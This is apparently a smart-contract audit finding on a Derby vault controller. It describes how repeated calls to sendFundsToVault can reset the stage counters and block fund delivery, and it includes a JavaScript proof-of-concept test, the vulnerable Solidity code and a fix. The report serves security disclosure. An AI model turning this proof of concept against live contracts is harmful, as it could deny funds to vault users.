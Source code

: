 saidam017

medium

# Vault can be denied from receiving Funds while rebalancing, also leaving the vault to stuck in `State.WaitingForFunds`.

## Summary

While in rebalancing period, in step where `xChainController.sol` need to send funds to vault trough `sendFundsToVault()`, malicious user can deny the process by triggering unwanted `sendFundsToVault()`.

## Vulnerability Detail

`xChainController.sol` need to send funds to vault trough `sendFundsToVault()`, iterating each chain id of vault, but malicious user can call this function for the same chain id multiple times but still incrementing `vaultStage[_vaultNumber].fundsSent`.

incrementing `vaultStage[_vaultNumber].fundsSent` will call `resetVaultStages()` if `vaultStage[_vaultNumber].fundsSent == chainIds.length` then will reset `vaultStage[_vaultNumber].fundsReceived = 0`. This will deny the proper `sendFundsToVault()` call  since `onlyWhenFundsReceived` will cause the call to revert (caused by `vaultStage[_vaultNumber].fundsReceived = 0`).

## PoC

Scenario : rebalance reach the `sendFundsToVault()` process. Vault is available on 4 chain, only the third chain need to receive fund, but malicious user repeatedly calling `sendFundsToVault()` with using other chain id until `resetVaultStages()` called. The required funds will not received since calling `sendFundsToVault()` again will revert.

```javascript
  it('5) Trigger xChainController to send funds to vaults (modified)', async function () {
    const chainIds = await xChainController.getChainIds();
    // malicious user increase the fundSent, even though allocation is zero and not receiving anything
    await xChainController.sendFundsToVault(vaultNumber, slippage, chainIds[3], relayerFee, {
      value: parseEther('0.1'),
    });
    console.log(`do first the chain id: ${chainIds[3]}`);
    // malicious user increase the fundSent, even though allocation is zero and not receiving anything
    await xChainController.sendFundsToVault(vaultNumber, slippage, chainIds[3], relayerFee, {
      value: parseEther('0.1'),
    });
    console.log(`do second the chain id: ${chainIds[3]}`);
    
    // in this loop, only the first two chainIds will be successfully called
    for (let chain of chainIds) {
      if (chain == 10000 || chain == 1000) {
        // when enter this, fundReceived state already 0 again (reseted);
        await expect(xChainController.sendFundsToVault(vaultNumber, slippage, chain, relayerFee, {
          value: parseEther('0.1'),
        })).to.be.revertedWith('Not all funds received');
      } else {
        await xChainController.sendFundsToVault(vaultNumber, slippage, chain, relayerFee, {
          value: parseEther('0.1'),
        });
      }

    }

    const expectedAmounts = [
      (398 / 2000) * 240_000, // vault 1
      (600 / 2000) * 240_000 + 60_000, // vault 2 should have the request of 60k
      (1000 / 2000) * 240_000, // vault 3 should have received 150k from controller, but denied
    ];

    expect(formatUSDC(await IUSDc.balanceOf(vault1.address))).to.be.equal(expectedAmounts[0]);
    expect(formatUSDC(await IUSDc.balanceOf(vault2.address))).to.be.equal(expectedAmounts[1]);
    expect(formatUSDC(await IUSDc.balanceOf(vault3.address))).to.be.equal(0);


    expect(formatUSDC(await vault1.getVaultBalance())).to.be.equal(expectedAmounts[0]);
    expect(formatUSDC(await vault2.getVaultBalance())).to.be.equal(expectedAmounts[1]);
    expect(formatUSDC(await vault3.getVaultBalance())).to.be.equal(0);

  });
```

## Impact

This will leave vault on some chain not receive the calculated funds and stuck in state waiting to receive funds (`State.WaitingForFunds`). 

## Code Snippet

https://github.com/sherlock-audit/2023-01-derby/blob/main/derby-yield-optimiser/contracts/XChainController.sol#L439-L440

```solidity
  function sendFundsToVault(
    uint256 _vaultNumber,
    uint256 _slippage,
    uint32 _chain,
    uint256 _relayerFee
  ) external payable onlyWhenFundsReceived(_vaultNumber) {
    address vault = getVaultAddress(_vaultNumber, _chain);
    require(vault != address(0), "xChainController: not a valid vaultnumber");
    if (!getVaultChainIdOff(_vaultNumber, _chain)) {
      uint256 amountToDeposit = getAmountToDeposit(_vaultNumber, _chain);

      if (amountToDeposit > 0) {
        address underlying = getUnderlyingAddress(_vaultNumber, _chain);

        uint256 balance = IERC20(underlying).balanceOf(address(this));
        if (amountToDeposit > balance) amountToDeposit = balance;

        IERC20(underlying).safeIncreaseAllowance(address(xProvider), amountToDeposit);
        xProvider.xTransferToVaults{value: msg.value}(
          vault,
          _chain,
          amountToDeposit,
          underlying,
          _slippage,
          _relayerFee
        );
        setAmountToDeposit(_vaultNumber, _chain, 0);
        emit SentFundsToVault(vault, _chain, amountToDeposit, underlying);
      }
    }
    vaultStage[_vaultNumber].fundsSent++; // this line will be always triggered
    if (vaultStage[_vaultNumber].fundsSent == chainIds.length) resetVaultStages(_vaultNumber);
  }
```

## Tool used

Manual Review

## Recommendation

consider adding state to track so `vaultStage[_vaultNumber].fundsSent++;` can't be  triggered by the same chain id.

